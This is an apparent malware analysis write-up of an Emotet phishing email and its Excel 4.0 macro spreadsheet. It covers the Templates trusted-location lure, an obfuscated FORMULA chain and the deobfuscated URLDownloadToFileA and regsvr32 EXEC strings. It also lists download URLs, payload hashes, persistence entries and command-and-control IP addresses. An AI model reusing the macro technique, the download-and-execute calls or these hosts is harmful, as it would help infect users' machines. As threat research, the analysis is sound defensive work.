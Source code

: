 # Malicious XLS Document (Emotet)

I have spotted this maliciously looking email targeting our support people and it get me wondering what it is all about. After a detonation in AnyRun, it was apparent that it is Emotet malware, but I haven't seen this type of a Excel spreadsheet before.

```

Summary
In April 2022, Netskope Threat Labs analyzed an Emotet campaign that was using LNK files instead of Microsoft Office documents, likely as a response to the protections launched by Microsoft in 2022 to mitigate attacks via Excel 4.0 (XLM) and VBA macros.

However, we recently came across hundreds of malicious Office documents that are being used to download and execute Emotet, indicating that some attackers are still using old delivery methods in the wild. Despite the protection Microsoft released in 2022 to prevent the execution of Excel 4.0 (XLM) macros, this attack is still feasible against users who are using outdated versions of Office. It is also feasible against users who have changed the default setting to explicitly enable macros. The fact that attackers are still using Excel 4.0 Macros indicates that outdated Office versions and users who have this protection disabled are still common.

```

## Stage 01 - Email

The email itself is not very good phishing attempt, it screams problems all over it, but I guess they are going for quantity, not quality.

![Alt text](data/emotet_email.png?raw=true "Email sample")

## Stage 02 - Malicious XLS document

So what are we dealing with.

```
└─$ file RVP664343444ZG.xls
RVP664343444ZG.xls: Composite Document File V2 Document, Little Endian, Os: Windows, Version 10.0, Code page: 1251, Author: Gydar, Last Saved By: Gydar, Name of Creating Application: Microsoft Excel, Create Time/Date: Fri Jun  5 19:19:34 2015, Last Saved Time/Date: Mon Nov  7 19:53:23 2022, Security: 0
```

![Alt text](data/document_sample.png?raw=true "Document details")

Excel document uses the first line of all the sheets to show a fabricated message, that relaunch is required and the file needs to go to `Templates` folder. This is a way how to get the macro executed within the file without user consent, but I have never seen this technique before.

```
%PROGRAMFILES%\Microsoft Office\root\Templates and its subdirectories contain templates for Office applications that are available for all users on a computer.
This directory as well as its subdirectories is in the default list of MS Office: Trusted Locations for Excel, Word and PowerPoint.
```

This points out to conclusion that it uses Excel 4.0 macro. Let's verify it with `olevba`.

```
└─$ olevba RVP664343444ZG.xls
olevba 0.60.1 on Python 3.10.5 - http://decalage.info/python/oletools
===============================================================================
FILE: RVP664343444ZG.xls
Type: OLE
-------------------------------------------------------------------------------
VBA MACRO xlm_macro.txt
in file: xlm_macro - OLE stream: 'xlm_macro'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
' 0085     13 BOUNDSHEET : Sheet Information - worksheet or dialog sheet, visible - Shee
' 0085     14 BOUNDSHEET : Sheet Information - worksheet or dialog sheet, visible - Sheet
' 0085     14 BOUNDSHEET : Sheet Information - worksheet or dialog sheet, visible - Sheet
' 0085     14 BOUNDSHEET : Sheet Information - worksheet or dialog sheet, visible - Sheet
' 0085     14 BOUNDSHEET : Sheet Information - worksheet or dialog sheet, visible - Sheet
' 0085     14 BOUNDSHEET : Sheet Information - worksheet or dialog sheet, visible - Sheet
' 0085     14 BOUNDSHEET : Sheet Information - Excel 4.0 macro sheet, visible - Sheet
' 0018     29 LABEL : Cell Value, String Constant - _xlfn.SINGLE hidden len=2 ptgErr  *INCOMPLETE FORMULA PARSING* Remaining, unparsed expression: b'\x1d'
' 0018     58 LABEL : Cell Value, String Constant - built-in-name 1 Auto_Open len=7 ptgRef3d Sheet!G3
' 002a      2 PRINTHEADERS : Print Row/Column Labels
```

Let's dig little bit deeper and look for the auto open function.

![Alt text](data/xls_hidden_field.png?raw=true "Hidden column")

`Auto_Open07457358934307593258350725798323209` points out to a hidden column. That holds  a formula, which reference hidden data all over the other sheets and it puts it all together. At this point we are getting to the classical Emotet stuff.

`=FORMULA(Sheet1!L24&Sheet1!L26&Sheet1!L27&Sheet1!L28&Sheet1!L28&Sheet2!F6&Sheet2!N19&Sheet1!F10&Sheet2!R3&Sheet5!Q21&Sheet2!F26&Sheet3!R13&Sheet5!E9&Sheet3!M26,G16)=FORMULA(Sheet1!L24&Sheet1!G8&Sheet1!F4&Sheet1!G8&Sheet1!L26&Sheet1!L30&Sheet1!F24&Sheet1!L26&Sheet3!F19&Sheet3!D5&Sheet1!A4&Sheet3!J14&Sheet1!A4&Sheet3!C32&Sheet1!F10&Sheet3!O23&Sheet3!P21&Sheet3!L8&Sheet5!E9&Sheet1!F24&Sheet1!L31,G18)=FORMULA(Sheet1!L24&Sheet1!L26&Sheet1!L27&Sheet1!L28&Sheet1!L28&Sheet2!F6&Sheet2!N19&Sheet1!F10&Sheet2!R3&Sheet5!Q21&Sheet2!G28&Sheet3!R13&Sheet5!G15&Sheet3!M26,G20)=FORMULA(Sheet1!L24&Sheet1!G8&Sheet1!F4&Sheet1!G8&Sheet1!L26&Sheet1!L30&Sheet1!F24&Sheet1!L26&Sheet3!F19&Sheet3!D5&Sheet1!A4&Sheet3!J14&Sheet1!A4&Sheet3!C32&Sheet1!F10&Sheet3!O23&Sheet3!P21&Sheet3!L8&Sheet5!G15&Sheet1!F24&Sheet1!L31,G22)=FORMULA(Sheet1!L24&Sheet1!L26&Sheet1!L27&Sheet1!L28&Sheet1!L28&Sheet2!F6&Sheet2!N19&Sheet1!F10&Sheet2!R3&Sheet5!Q21&Sheet2!I27&Sheet3!R13&Sheet5!J3&Sheet3!M26,G24)=FORMULA(Sheet1!L24&Sheet1!G8&Sheet1!F4&Sheet1!G8&Sheet1!L26&Sheet1!L30&Sheet1!F24&Sheet1!L26&Sheet3!F19&Sheet3!D5&Sheet1!A4&Sheet3!J14&Sheet1!A4&Sheet3!C32&Sheet1!F10&Sheet3!O23&Sheet3!P21&Sheet3!L8&Sheet5!J3&Sheet1!F24&Sheet1!L31,G26)=FORMULA(Sheet1!L24&Sheet1!L26&Sheet1!L27&Sheet1!L28&Sheet1!L28&Sheet2!F6&Sheet2!N19&Sheet1!F10&Sheet2!R3&Sheet5!Q21&Sheet2!J29&Sheet3!R13&Sheet5!L12&Sheet3!M26,G28)=FORMULA(Sheet1!L24&Sheet1!G8&Sheet1!F4&Sheet1!G8&Sheet1!L26&Sheet1!L30&Sheet1!F24&Sheet1!L26&Sheet3!F19&Sheet3!D5&Sheet1!A4&Sheet3!J14&Sheet1!A4&Sheet3!C32&Sheet1!F10&Sheet3!O23&Sheet3!P21&Sheet3!L8&Sheet5!L12&Sheet1!F24&Sheet1!L31,G30)=FORMULA(Sheet1!L24&Sheet1!G44&Sheet1!H46&Sheet1!J44,G36)`

Let's try to deobfuscate the function and reconstruct the strings it produces.

```
"CALL("urlmon","URLDownloadToFileA","JJCCBB",0,"https://cpcwiki[.]de/images/rirOpdztUEfG7WJ","..\oxnv1.ooccxx,0,0)
"EXEC("C:\Windows\System32\regsvre /S ..\oxnv1.ooccxx:")"
```

Four different domains were used to download four different malicious ooccxx files.

Following four URLs were used for downloading malicious file.
```
hxxps://cpcwiki[.]de/images/rirOpdztUEfG7WJ
hxxp://www.atashelement[.]ir/qds-seo-url-autofill/tmSetsq0wxsmXdA/
hxxp://a.angel-tn.idv[.]tw/web_images/aa7fEDOPvT2F1i/
hxxps://www.conceptagency[.]net/css/zXC/
```

## Stage 03 - Dropped DLL


Only 3 URLs were online at the time of the analysis, delivering 3 distinct payloads.

```
└─$ file *            
index.html:      PE32+ executable (DLL) (GUI) x86-64, for MS Windows
index.html.1:    PE32+ executable (DLL) (GUI) x86-64, for MS Windows
rirOpdztUEfG7WJ: PE32+ executable (DLL) (GUI) x86-64, for MS Windows

└─$ sha1sum *                                                                                               
660d1f0186c9cfa862606b4c729a8881bb6f4d0e  index.html
20cab1b485c06201a387fd6d5d23d2083a5399e3  index.html.1
81474a672efeb9e620b012d2922b2ff067182cab  rirOpdztUEfG7WJ
```                                                         

```
C:\WINDOWS\system32\regsvr32.exe "C:\Users\admin\AppData\Local\XtgMIR\gjTfZM.dll"
C:\WINDOWS\system32\regsvr32.exe "C:\Users\admin\AppData\Local\SaBsCBKzzsmPVsKuz\bkfZViMVKRsZ.dll"
C:\WINDOWS\system32\regsvr32.exe "C:\Users\admin\AppData\Local\PlAPIWwQWamCJjJFQ\BgTjYB.dll"
C:\WINDOWS\system32\regsvr32.exe "C:\Users\admin\AppData\Local\LueFfVnZJL\JvApveoR.dll"


HKEY_CURRENT_USER\SOFTWARE\MICROSOFT\WINDOWS\CURRENTVERSION\RUN




94.23.45.86:4143
187.63.160.88:80
167.172.199.165: 8080
182.162.143.56:443
```




## Reading

https://blog.reversinglabs.com/blog/excel-4.0-macros
https://www.optimizationcore.com/security/extract-vba-macro-from-microsoft-word-excel-oledump/
https://www.optimizationcore.com/security/excelsheetunhide-reveal-unhide-hidden-excel-sheets/
https://github.com/denk-core/ExcelSheetUnhide
https://www.zscaler.com/blogs/security-research/return-emotet-malware-analysis
https://www.proxifier.com/
